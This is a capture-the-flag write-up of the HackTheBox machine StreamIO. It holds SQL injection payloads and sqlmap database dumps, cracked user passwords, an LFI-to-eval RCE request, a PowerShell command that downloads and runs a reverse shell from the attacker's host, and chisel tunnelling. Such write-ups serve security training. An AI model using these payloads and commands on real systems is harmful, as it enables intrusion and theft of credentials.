

---
Category:
  - B2R
Difficulty: Medium
Platform: HackTheBox
Status: 2. User
tags:
  - LFI
  - MSSQL
  - RCE
  - SQL-Injection
  - port-forwarding
  - Windows
---


***TABLE OF CONTENTS:***

---

# Resolution summary

## Used tools

- nmap
- gobuster


---

# Information Gathering

Scanned all TCP ports:

```
$ sudo nmap 10.10.11.158 -p- -sS -v -oA scan/all-tcp-ports.txt
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49699/tcp open  unknown
64595/tcp open  unknown
```

Enumerated open TCP ports:

```
$ sudo nmap -sV -sC -sT -p $(cat scan/all-tcp-ports.txt.nmap | grep open | cut -d '/' -f 1 | sed -z 's/\n/,/g;s/,$/\n/') -oA scan/open-tcp-ports.txt 10.10.11.158
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-08 13:45 CEST
Nmap scan report for 10.10.11.158
Host is up (0.035s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-07-08 18:45:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb0., Site: Default-First-Site-Name)
443/tcp   open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Not valid before: 2022-02-22T07:03:28
|_Not valid after:  2022-03-24T07:03:28
|_ssl-date: 2022-07-08T18:47:01+00:00; +7h00m00s from scanner time.
| tls-alpn:
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
64595/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2022-07-08T18:46:25
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.27 seconds
```

Enumerated top 200 UDP ports:

```
┌──(maoutis㉿kali)-[~/CTF/HTB/SteamIO]
└─$ sudo nmap -sU --top-ports 200 -oA scan/top-udb-ports.txt 10.10.11.158
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-08 13:48 CEST
Nmap scan report for 10.10.11.158
Host is up (0.034s latency).
Not shown: 199 open|filtered ports
PORT   STATE SERVICE
53/udp open  domain
```

# Enumeration

## Port 80/443 - HTTP (Microsoft-IIS/10.0)

Browsed port 80:


Default IIS page

Certificate DNS:

```
Not Critical
DNS Name: streamIO.htb
DNS Name: watch.streamIO.htb
```

### Enumerated directories and pages:

```
# Port 80
$ gobuster dir -u http://streamIO.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 25 -o scan/streamIO_dirs.txt
/aspnet_client        (Status: 301) [Size: 157] [--> http://streamIO.htb/aspnet_client/]

$ gobuster dir -u http://streamIO.htb/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -t 25 -o scan/streamIO_files.txt
/.                    (Status: 200) [Size: 703]
/iisstart.htm         (Status: 200) [Size: 703]

# Port 443 - streamIO.htb
$ gobuster dir -u https://streamIO.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 25 -o scan/streamIO-https_dirs.txt -q -k -f
/images/              (Status: 403) [Size: 1233]
/admin/               (Status: 403) [Size: 18]
/css/                 (Status: 403) [Size: 1233]
/js/                  (Status: 403) [Size: 1233]
/fonts/               (Status: 403) [Size: 1233]

# streamIO.htb/admin
$ gobuster dir -u https://streamio.htb/admin -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -k -q
/images/              (Status: 403) [Size: 1233]
/js/                  (Status: 403) [Size: 1233]
/css/                 (Status: 403) [Size: 1233]
/fonts/               (Status: 403) [Size: 1233]
/index.php            (Status: 403) [Size: 18]
/.                    (Status: 403) [Size: 18]
/master.php           (Status: 200) [Size: 58]

$ gobuster dir -u https://streamIO.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -t 25 -o scan/streamIO-https_files.txt -q -k
/index.php            (Status: 200) [Size: 13497]
/login.php            (Status: 200) [Size: 4145]
/register.php         (Status: 200) [Size: 4500]
/favicon.ico          (Status: 200) [Size: 1150]
/contact.php          (Status: 200) [Size: 6434] 
/logout.php           (Status: 302) [Size: 0] [--> https://streamio.htb/]
/.                    (Status: 200) [Size: 13497]
/about.php            (Status: 200) [Size: 7825]

# Port 443 - watch.streamIO.htb
$ gobuster dir -u https://watch.streamIO.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -t 25 -o scan/watch_streamIO-https_dirs.txt -q -k -f
/static/              (Status: 403) [Size: 1233]

$ gobuster dir -u https://watch.streamIO.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files-lowercase.txt -t 25 -o scan/watch_streamIO-https_files.txt -q -k
/index.php            (Status: 200) [Size: 2829]
/search.php           (Status: 200) [Size: 253887]
/favicon.ico          (Status: 200) [Size: 1150]
/.                    (Status: 200) [Size: 2829]
/blocked.php          (Status: 200) [Size: 677]
```

### streamIO.htb:443


Enumerated developer email from the footer: oliver@Streamio.htb


Login and registration page:


Enumerated admin/master.php:


### watch.streamIO.htb:443


Enumerated search.php:


## Port 139 / Port 445 - NetBIOS + SMB

```
$ smbmap -H 10.10.11.158
[!] Authentication error on 10.10.11.158

┌──(maoutis㉿kali)-[~/CTF/HTB/SteamIO]
└─$ smbclient --no-pass -L //10.10.11.158
session setup failed: NT_STATUS_ACCESS_DENIED
```

## Port 53 - DNS (Simple DNS Plus)

Enumerated DNS:

```
┌──(maoutis㉿kali)-[~/CTF/HTB/SteamIO]
└─$ dig dig axfr @10.10.11.158 streamIO.htb

; <<>> DiG 9.16.15-Debian <<>> dig axfr @10.10.11.158 streamIO.htb
;; global options: +cmd
; Transfer failed.
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 47931
;; flags: qr rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 1232
; COOKIE: 0e8c3d9bb3cee9a5f4ca5afb62c820921447aa492e3d2b6a (good)
;; QUESTION SECTION:
;streamIO.htb.                  IN      A

;; AUTHORITY SECTION:
.                       3368    IN      SOA     a.root-servers.net. nstld.verisign-grs.com. 2022070800 1800 900 604800 86400

;; Query time: 12 msec
;; SERVER: 192.168.1.254#53(192.168.1.254)
;; WHEN: Fri Jul 08 14:18:26 CEST 2022
;; MSG SIZE  rcvd: 144
```

# Exploitation

## SQL Injections

### Boolean-based SQL Injection inside search.php (not exploitable using sqlmap):

Identified a potential SQL Injection but sqlmap is unable to exploit it:

```
POST /search.php HTTP/2
Host: watch.streamio.htb
Content-Length: 7
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="103", ".Not/A)Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://watch.streamio.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://watch.streamio.htb/search.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

q=test*
```

```
...
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] Y
sqlmap identified the following injection point(s) with a total of 362 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: q=test%' AND 3487=3487 AND 'RtyF%'='RtyF
---
```

Database should be MSSQL:

`test%' AND 'foo'+'bar'='foob'+'ar' AND 'RtyF%'='RtyF` —> OK

`test%' AND 'foo'+'bar'='foob'+'br' AND 'RtyF%'='RtyF` —> KO

**Vulnerable code:**

```php
PS C:\inetpub\watch.streamio.htb> cat search.php
<?php
$search = strtolower($_POST['q']);

// sqlmap choker
$shitwords = ["/WAITFOR/i", "/vkBQ/i", "/CHARINDEX/i", "/ALL/i", "/SQUARE/i", "/ORDER/i", "/IF/i","/DELAY/i", "/NULL/i", "/UNICODE/i","/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "ifnull/i", "/ or /i"];
foreach ($shitwords as $shitword) {
        if (preg_match( $shitword, $search )) {
                header("Location: https://watch.streamio.htb/blocked.php");
                die("blocked");
        }
}

# Query section
$connection = array("Database"=>"STREAMIO", "UID" => "db_user", "PWD" => 'B1@hB1@hB1@h');
$handle = sqlsrv_connect('(local)',$connection);
if (!isset($_POST['q']))
{

        $query = "select * from movies order by movie";
        $res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
else
{
        $_SESSION['no_of_reqs'] +=1;
        $query = "select * from movies where movie like '%".$_POST['q']."%' order by movie";
        $res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
?>
```

### Time based/Stacked SQL Injection inside login.php:

`username=test%27+waitfor+delay+%2700%3A00%3A5%27--&password=`


Detected the SQL Injection with sqlmap:

```
$ sqlmap -r login.req --level 5 --risk 3 --batch --force-ssl --technique ts --dbms MSSQL
...
[14:40:18] [INFO] parsing HTTP request from 'login.req'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[14:40:18] [INFO] testing connection to the target URL
[14:40:20] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be injectable
[14:40:20] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[14:40:20] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[14:40:20] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
[14:40:41] [INFO] (custom) POST parameter '#1*' appears to be 'Microsoft SQL Server/Sybase stacked queries (comment)' injectable
[14:40:41] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[14:40:52] [INFO] (custom) POST parameter '#1*' appears to be 'Microsoft SQL Server/Sybase time-based blind (IF)' injectable
[14:40:52] [INFO] checking if the injection point on (custom) POST parameter '#1*' is a false positive
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 66 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: password=test&username=test';WAITFOR DELAY '0:0:5'--

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: password=test&username=test' WAITFOR DELAY '0:0:5'-- JOVV
---
[14:41:48] [INFO] testing Microsoft SQL Server
[14:41:48] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[14:41:54] [INFO] confirming Microsoft SQL Server
[14:41:59] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2019 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.2.26
back-end DBMS: Microsoft SQL Server 2019
[14:41:59] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/streamio.htb'
```

Dumped the DB:

```
$ sqlmap -r login.req --level 5 --risk 3 --batch --force-ssl --technique ts --dbms MSSQL --dbs
...
[*] model
[*] msdb
[*] STREAMIO
[*] streamio_backup
[*] tempdb

$ sqlmap -r login.req --level 5 --risk 3 --batch --force-ssl --technique ts --dbms MSSQL -D STREAMIO --tables --th
reads 10
...
Database: STREAMIO
[2 tables]
+--------+
| movies |
| users  |
+--------+

$ sqlmap -r login.req --level 5 --risk 3 --batch --force-ssl --technique ts --dbms MSSQL -D STREAMIO -T users --co
lumns --threads 10
...
Database: STREAMIO
Table: users
[4 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| id       | int\x02 |
| is_staff | bit     |
| password | nchar   |
| username | nchar   |
+----------+---------+
```

### Dumped users and credentials

```
$ sqlmap -r login.req --level 5 --risk 3 --batch --force-ssl --technique ts --dbms MSSQL -D STREAMIO -T users -C username,password --dump --threads 10
...
James:c660060492d9edcaa8332d89c99c9239
Theodore:925e5408ecb67aea449373d668b7359e
Samantha:083ffae904143c4796e464dac33c1f7d
Lauren:08344b85b329d7efd611b7a7743e8a09
William:d62be0dc82071bccc1322d64ec5b6c51
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5
Robert:f03b910e2bd0313a23fdd7575f34a694
Thane:3577c47eb1e12c8ba021611e1280753c
Carmon:35394484d89fcfdb3c5e447fe749d213
Barry:54c88b2dbd7b1a84012fabc1a4c73415
Oliver:fd78db29173a5cf701bd69027cb9bf6b
Michelle:b83439b16f844bd6ffe35c02fe21b3c0
Gloria:0cfaaaafb559f081df2befbe66686de0
Victoria:b22abb47a02b52d5dfa27fb0b534f693
Alexendra:1c2b3d8270321140e5153f6637d3ee53
Baxter:22ee218331afd081b0dcd8115284bae3
Clara:ef8f3d30a856cf166fb8215aca93e9ff
Barbra:3961548825e3e21df5646cafe11c6c76
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f
Austin:0049ac57646627b8d7aeaccf8b6a936f
Garfield:8097cedd612cc37c29db152b6e9edbd3
1:6dcd87740abb64edfa36d170f0d5450d
Victor:bf55e15b119860a6e6b5a164377da719
Lucifer:7df45a9e3de3863807c026ba48e55fb3
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8
Diablo:ec33265e5fc8c2f1b0c137bb7b3632b5
Robin:dc332fb5576e9631c9dae83f194f8e70
Stan:384463526d288edcc95fc3701e523bc7
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332
```

Analyzed the hashes:

```
┌──(maoutis㉿kali)-[~/CTF/HTB/StreamIO]
└─$ hashid loot/hash.txt                                        
--File 'loot/hash.txt'--
Analyzing 'James:c660060492d9edcaa8332d89c99c9239'
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
Analyzing 'Theodore:925e5408ecb67aea449373d668b7359e'
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2
...

$ hash-identifier b779ba15cedfd22a023c4d8bcf5f2332
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```

Cracked the hashes:

```
$ hashcat -m2100 hash /usr/share/wordlists/rockyou.txt --force --user
no hash cracked 

$ hashcat -m1100 hash /usr/share/wordlists/rockyou.txt --force --user
no hash cracked 

$ hashcat -m0 hash /usr/share/wordlists/rockyou.txt --force --user
...
$ hashcat -m0 hash --user --show
Lauren:08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
Sabrina:f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
Thane:3577c47eb1e12c8ba021611e1280753c:highschoolmusical
Barry:54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
Michelle:b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
Victoria:b22abb47a02b52d5dfa27fb0b534f693:!5psycho8!
Clara:ef8f3d30a856cf166fb8215aca93e9ff:%$clara
Lenord:ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
1:6dcd87740abb64edfa36d170f0d5450d:$3xybitch
Bruno:2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
yoshihide:b779ba15cedfd22a023c4d8bcf5f2332:66boysandgirls..
```

>[!important]
>Lauren:##123a8j8w5123##
>Sabrina:!!sabrina\$
>Thane:highschoolmusical
>Barry:\$hadoW
>Michelle:!?Love?!123
>Victoria:!5psycho8!
>Clara:%\$clara
>Lenord:physics69i
>1:\$3xybitch
>Bruno:\$monique\$1991\$
>yoshihide:66boysandgirls..


### Vulnerable login code

```php
if(isset($_POST['username']) && isset($_POST['password']))
{
  # login here
    ## Check from db here dbch
    $user = $_POST['username'];
    $pass = md5($_POST['password']);
    $query = "select * from users where username = '$user' and password = '$pass'";
    $res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
    if(sqlsrv_num_rows($res) == 1 && $user === 'yoshihide')
    {
        # Login success
        $_SESSION['logged_in'] = 1;
        # Admin success
        $_SESSION['admin'] = 1;
        header("Location: https://streamio.htb/");
    }
    else
    {
?>
```

## Local File Inclusion in admin area

Tested all the credentials and accessed the restricted area:

```
$ ffuf -mode pitchfork -u https://streamio.htb/login.php -d "username=UFUZZ&password=PFUZZ" -w loot/users.txt:UFUZZ -w loot/passwords.txt:PFUZZ -b 'PHPSESSID=jo4jv2bkrflgihf8cjllvktkh0' -X POST -H 'Content-Type: application/x-www-form
-urlencoded' -H 'Host: streamio.htb'
...
[Status: 200, Size: 4207, Words: 808, Lines: 112, Duration: 43ms]
    * UFUZZ: Clara
    * PFUZZ: %$clara

[Status: 302, Size: 4147, Words: 796, Lines: 111, Duration: 43ms]
    * UFUZZ: yoshihide
    * PFUZZ: 66boysandgirls..

[Status: 200, Size: 4207, Words: 808, Lines: 112, Duration: 45ms]
    * UFUZZ: Thane
    * PFUZZ: highschoolmusical

...
```

>[!Important]
>yoshihide     66boysandgirls..


Page source code:

```
<body>
	<center class="container">
		<br>
		<h1>Admin panel</h1>
		<br><hr><br>
		<ul class="nav nav-pills nav-fill">
			<li class="nav-item">
				<a class="nav-link" href="?user=">User management</a>
			</li>
			<li class="nav-item">
				<a class="nav-link" href="?staff=">Staff management</a>
			</li>
			<li class="nav-item">
				<a class="nav-link" href="?movie=">Movie management</a>
			</li>
			<li class="nav-item">
				<a class="nav-link" href="?message=">Leave a message for admin</a>
			</li>
		</ul>
		<br><hr><br>
		<div id="inc">
					</div>
	</center>
</body>
```

Bruteforced other possible parameters:

```
$ ffuf -u https://streamio.htb/admin/?FUZZ= -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -t 25 -b 'PHPSESSID=jo4jv2bkrflgihf8cjllvktkh0' -fs 1678
...
user                    [Status: 200, Size: 2073, Words: 146, Lines: 63, Duration: 39ms]
staff                   [Status: 200, Size: 12484, Words: 1784, Lines: 399, Duration: 49ms]
debug                   [Status: 200, Size: 1712, Words: 90, Lines: 50, Duration: 37ms]
movie                   [Status: 200, Size: 320235, Words: 15986, Lines: 10791, Duration: 49ms]
```

### LFI inside debug parameter

`?debug=..\..\..\..\..\..\..\Windows\win.ini`


Intercepted **yoshihide** NTLMv2 domain hash using RFI and responder, however hashcat wasn’t able to crack it:

*https://streamio.htb/admin/?debug=\\10.10.14.136\shared\mal.php*

```
$ sudo responder -I tun0
...
[SMB] NTLMv2-SSP Client   : ::ffff:10.10.11.158
[SMB] NTLMv2-SSP Username : streamIO\yoshihide
[SMB] NTLMv2-SSP Hash     : yoshihide::streamIO:61460e17bd320229:B85375333665834B33FB542DAD7B25FA:0101000000000000805D2784A597D8017732AE875485E2A000000000020008004A0049005300390001001E00570049004E002D005A0058005600440049003000380059004A004D00430004003400570049004E002D005A0058005600440049003000380059004A004D0043002E004A004900530039002E004C004F00430041004C00030014004A004900530039002E004C004F00430041004C00050014004A004900530039002E004C004F00430041004C0007000800805D2784A597D80106000400020000000800300030000000000000000000000000210000D84AF5AC27756BCF46E2B0677FE562A633F45EC032FAF20AA3177238BD9255D80A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003100330036000000000000000000
```

Dumped application source code using PHP filter:

[https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php](https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php)


- register.php
    
    ```php
    else
      {
        $connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
        $handle = sqlsrv_connect('(local)',$connection);
        $query = "insert into users(username,password,is_staff) values('$user','$pass',0)";
        $res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
    ```
    
- index.php (vulnerable code)
    
    ```php
    <div id="inc">
    			<?php
    				if(isset($_GET['debug']))
    				{
    					echo 'this option is for developers only';
    					if($_GET['debug'] === "index.php") {
    						die(' ---- ERROR ----');
    					} else {
    						include $_GET['debug'];
    					}
    				}
    				else if(isset($_GET['user']))
    					require 'user_inc.php';
    				else if(isset($_GET['staff']))
    					require 'staff_inc.php';
    				else if(isset($_GET['movie']))
    					require 'movie_inc.php';
    				else 
    			?>
    		</div>
    ```
    
- master.php
    
    ```php
    <br><hr><br>
    <form method="POST">
    <input name="include" hidden>
    </form>
    <?php
    if(isset($_POST['include']))
    {
    if($_POST['include'] !== "index.php" ) 
    eval(file_get_contents($_POST['include']));
    else
    echo(" ---- ERROR ---- ");
    }
    ?>
    ```
    

## Remote code execution through LFI

master.php is using an `eval()` function which input can be controlled.

```php
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
...
?>
```

```
POST /admin/index.php?debug=master.php&cmd=dir HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=4mbgugkcpuni3kms08q9jbelkc
User-Agent: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7
```


Reverse shell:

[nishang/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
$ nano rs.ps1
...
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.164 -Port 10099

$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded the reverse shell and executed it using powershell:

```
POST /admin/index.php?debug=master.php&cmd=powershell+"IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.164%3a80/rs.ps1')" HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=4mbgugkcpuni3kms08q9jbelkc
User-Agent: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7
```

```
┌──(kali㉿kali)-[~/…/HTB/B2R/StreamIO/loot]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.164] from (UNKNOWN) [10.10.11.158] 62988
Windows PowerShell running as user DC$ on DC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\streamio.htb\admin>whoami; hostname
streamio\yoshihide
DC
PS C:\inetpub\streamio.htb\admin>
```

# Lateral Movement to nikk37

## Local enumeration

Enumerated users:

```
PS C:\> net user /domain

User accounts for \\DC

-------------------------------------------------------------------------------
Administrator            Guest                    JDgodd
krbtgt                   Martin                   nikk37
yoshihide
The command completed successfully.
```

Enumerated open ports:

```
PS C:\inetpub\streamio.htb\admin> netstat -ano | findstr TCP | findstr /V '::'
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:88             0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:389            0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:464            0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:593            0.0.0.0:0              LISTENING       880
  TCP    0.0.0.0:636            0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:1433           0.0.0.0:0              LISTENING       3768
  TCP    0.0.0.0:3268           0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:3269           0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:9389           0.0.0.0:0              LISTENING       2660
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       476
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1084
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1524
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49673          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49674          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49678          0.0.0.0:0              LISTENING       608
  TCP    0.0.0.0:49698          0.0.0.0:0              LISTENING       2900
  TCP    0.0.0.0:53158          0.0.0.0:0              LISTENING       2940
  TCP    10.10.11.158:53        0.0.0.0:0              LISTENING       2900
  TCP    10.10.11.158:139       0.0.0.0:0              LISTENING       4
  TCP    10.10.11.158:63467     10.10.14.164:10099     ESTABLISHED     5160
  TCP    127.0.0.1:53           0.0.0.0:0              LISTENING       2900
```

Forwarded port 1433 to the attacker machine using chisel:

```
┌──(maoutis㉿kali)-[~/CTF/HTB/StreamIO/exploit]
└─$ chisel server --port 9002 --reverse
2022/07/18 12:13:10 server: Reverse tunnelling enabled
2022/07/18 12:13:10 server: Fingerprint 9EL7j70O7u2Z0c9vNri3W/ccHYbQSArqhlY1PuobAxM=
2022/07/18 12:13:10 server: Listening on http://0.0.0.0:9002
2022/07/18 12:13:56 server: session#1: Client version (1.7.7) differs from server version (0.0.0-src)
2022/07/18 12:13:56 server: session#1: tun: proxy#R:1443=>localhost:1443: Listening
```

```
PS C:\Windows\temp> wget http://10.10.14.164/chisel.exe -o c.exe
PS C:\Windows\temp> .\c.exe client 10.10.14.164:9002 R:1443:127.0.0.1:1443
```

```
$ netstat -polentau  | grep 1443
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp6       0      0 :::1443                 :::*                    LISTEN      1000       1084220    180621/chisel        off (0.00/0/0)

```

```bash
$ evil-winrm -i streamio.htb -u nikk37 -p 'get_dem_girls2@yahoo.com'
Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
